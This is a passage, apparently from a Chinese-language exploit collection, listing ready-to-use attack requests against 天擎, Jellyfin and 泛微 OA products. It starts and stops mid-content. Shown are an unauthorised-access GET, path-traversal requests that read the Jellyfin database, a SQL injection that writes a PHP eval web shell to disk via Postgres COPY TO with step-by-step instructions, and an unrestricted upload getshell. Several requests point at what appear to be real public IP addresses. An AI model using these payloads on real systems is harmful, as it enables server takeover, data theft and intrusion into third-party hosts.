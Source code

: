 ```
------WebKitFormBoundaryfcKRltGv--
```

**天擎** 

越权访问：GET /api/dbstat/gettablessize HTTP/1.1

**Jellyfin 任意文件读取**  
GET /Audio/anything/hls/..\data\jellyfin.db/stream.mp3/ HTTP/1.1  
GET /Videos/anything/hls/m/..\data\jellyfin.db HTTP/1.1  
GET /Videos/anything/hls/..\data\jellyfin.db/stream.m3u8/?api_key=4c5750626da14b0a804977b09bf3d8f7 HTTP/1.1

**天擎 - 前台 sql 注入**  
注入写 shell:  
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--  
利用过程:  
1. 通过安装包安装的一般都有 root 权限，因此该注入点可尝试写 shell  
2. 通过注入点，创建一张表 O  
3. 为 表 O 添加一个新字段 T 并且写入 shell 内容  
4. Postgres 数据库 使用 COPY TO 把一个表的所有内容都拷贝到一个文件 (完成写 shell)  
5. 删除 表 O

**泛微 OA9 前台无限制 Getshell**  

漏洞位于:/page/exportImport/uploadOperation.jsp 文件中

Jsp 流程大概是: 判断请求是否是 multipart 请求, 然就没有了, 直接上传了, 啊哈哈哈哈哈

重点关注 File file=new File(savepath+filename),

Filename 参数, 是前台可控的, 并且没有做任何过滤限制

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamwf4adMMfibQDsyN0BJP5XocI2mGRnlLXNq4LH3g9Q1c7nm1CwhqLZ0A/640?wx_fmt=png)

利用非常简单, 只要对着  

127.0.0.1/page/exportImport/uploadOperation.jsp

来一个 multipartRequest 就可以, 利用简单, 自评高危!!

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamlo7icMZSh3yCiajUZuxRpkae9uCWZiaGDJc6VSj80yecRFzkXFC58gA5w/640?wx_fmt=png)

然后请求路径:  

view-source:http://112.91.144.90:5006/page/exportImport/fileTransfer/1.jsp

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamCVgOlVbiaRGumRcZ0Utgoa4Alg6IAdSkkCbk60NkOelYHvE27rdfFrw/640?wx_fmt=png)

**泛微 OA8 前台 SQL 注入**  

漏洞 URL：

http://106.15.190.147/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=*** 注入点

在 getdata.jsp 中，直接将 request 对象交给
